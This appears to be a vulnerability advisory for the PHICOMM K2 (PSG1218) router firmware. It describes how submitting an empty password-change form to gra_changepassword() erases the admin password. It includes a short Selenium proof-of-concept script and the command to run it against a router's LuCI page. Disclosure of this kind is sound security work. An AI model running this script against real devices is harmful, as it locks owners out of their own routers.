

- **Vendor Of The Product**

  PHICOMM

- **Affected Products and Firmware version**

  PHICOMM  K2(PSG1218)    V22.5.9.163

- **Vulnerability**

  Password Loss

- **Exploitation**

  Submit an empty form about changing password will cause a password loss vulnerability.

- **Affected Components**

  Affected source code file: /usr/lib/lua/luci/controller/admin/index.lua

  Affected function: gra_changepassword()

- **Vulnerability Details**

  Firstly, After the web login Authentication or a session hijack vulnerability, or a weak credentials brute force attack to get access permissions, we have established the session with the device.

  Once click the save button, we can see the invalid operation alert. Because our click trigger the related script to check the validity of values in the three inputs.

  But with the help of selenium, we can bypass the click check to submit the empty form to the device.

 

  Then,we can see that the server use the empty data directly without checking whether the data is modified maliciously, causing the loss of password in config file.




  Finally, we have no way to log into the management page anymore.

  code show as below:

```python
#filename fuzzing.py
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.remote.webelement import WebElement
import sys
import time

chrome_options = Options()
chrome_options.add_experimental_option('w3c',False)
driver = webdriver.Chrome(chrome_options=chrome_options)
homeURL = sys.argv[1]

def submit_empty_form(URL):
  driver.get(URL)
  time.sleep(20)
  #sleeping 20 seconds to login！
  e = driver.find_element_by_id('save_pwd')
  e.submit()
  driver.close()

submit_empty_form(sys.argv[1])
```

  executing the command python3 fuzzing.py http://192.168.2.1/cgi-bin/luci in the terminal will start the testing program and cause the password loss.
